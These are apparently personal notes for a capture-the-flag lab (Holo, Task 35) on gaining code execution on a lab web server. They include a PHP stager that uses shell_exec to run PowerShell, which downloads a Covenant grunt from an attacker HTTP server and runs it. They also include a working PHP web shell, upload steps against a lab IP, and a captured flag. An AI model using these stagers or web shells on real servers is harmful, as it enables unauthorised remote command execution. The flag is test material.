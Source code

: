 Now that we have a working executable that can bypass anti-virus, we need a way to execute it. We know that web servers cannot execute applications, so we will need to write a PHP wrapper to download and execute our code for us.  

We will be using a template payload/wrapper that we can use to deploy PowerShell commands on the remote server for this task. This will allow us to download and execute our malicious application. Find the source code for the template below.  

```
 <?php  
  function compile_stager() {  
    $init = "powershell.exe";  
    $payload = ""; // Insert PowerShell payload here  
    $execution_command = "shell_exec";  
    $query = $execution_command("$init $payload");  
    echo $query; // Execute query  
  }   
  
  compile_stager();  
?>
```

The above wrapper takes advantage of the `shell_exec` command to open a process on the server and execute commands as the webserver. Of course, this will only work if you can execute privileges on the system.  

You can decide to either upload an exe grunt or create a ps1 grunt either will work with the template.  

To download our malicious grunt we can set up an HTTP server on our attacking machine using python, updog, etc and use `iex` or `Invoke-WebRequest` to make a remote call to our server. Find the download payload below.

To download our malicious grunt, we can set up an HTTP server on our attacking machine using python, updog, etc and use `iex` or `Invoke-WebRequest` to make a remote call to our server. Find the download payload below.  

`Invoke-WebRequest 127.0.0.1:8000/shell.exe -outfile notashell.exe`

To implement this payload, you will need to change the address and port to your attacking machine. You may also want to begin by identifying the webserver's root directory to identify where you can and cannot execute the file, such as if AppLocker or other solutions are employed on the server.  

After we have downloaded the file, we will want to execute it using PowerShell. First, find the execution payload below.  

`.\notashell.exe` or `cmd /c .\notashell.exe`

We can put together all payloads into the wrapper to complete our PHP payload. Find the final PHP code below.  

```
<?php  
  function get_stager() {  
    $init = "powershell.exe";  
    $payload = "Invoke-WebRequest 127.0.0.1:8000/shell.exe -outfile notashell.exe"; // Insert PowerShell payload here  
    $execution_command = "shell_exec";  
    $query = $execution_command("$init $payload");  
    echo $query; // Execute query  
  }  
 function execute_stager() {  
  $init = "powershell.exe";  
    $payload = ".\notashell.exe"; // Insert PowerShell payload here  
    $execution_command = "shell_exec";  
    $query = $execution_command("$init $payload");  
    echo $query; // Execute query  
 }  
  get_stager();  
  execute_stager();  
  die();  
?>
```

We now have a working PHP shell that operates with Covenant. You can find the source code on GitHub, [https://github.com/Cryilllic/PHP-PowerShell/tree/main](https://github.com/Cryilllic/PHP-PowerShell/tree/main).


---

# Your job

Time to try and exploit this web-app. Remember way back in [[Task 29 - Thanks, I'll let myself in.]] we found the `/images/` directory so we can run PHP code, that isn’t malicious. Well let’s give that a go.

> [!failure]
> Don't bother yourself trying the above method, according to someone else's writeups it doens't work.

Instead follow the [[Marmeus' walkthrough]].


## Uploading a web-shell to 10.200.X.31

It's used the following web-shell which didn’t get caught.

```
<html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="TEXT" name="cmd" autofocus id="cmd" size="80">
<input type="SUBMIT" value="Execute">
</form>
<pre>
<?php
if(isset($_GET['cmd']))
{
system($_GET['cmd']);
}
?>
</pre>
</body>
</html>
```

1. Create a php file with the above code on your attacking machine.
2. Navigate to http://10.200.95.31/img_upload.php and upload the file.
3. Navigate to http://10.200.95.31/images/webshell.php.
	![[Task 35 - Wrapping the burrito-20241014144328981.webp]]
	Now you can run any command on the form.
	
> [!INFO]
You are root onto  S-SRV01.

---

## Flag after rooting S-SRV01

- Run the following on the form.
	`type C:\Users\Administrator\Desktop\root.txt`
	
	HOLO{50f9614809096ffe2d246e9dd21a76e1}

- Submit the user flag on Task 4, question 5.

**Next step:** [[Task 36 -  That's not a cat that's a dawg]]
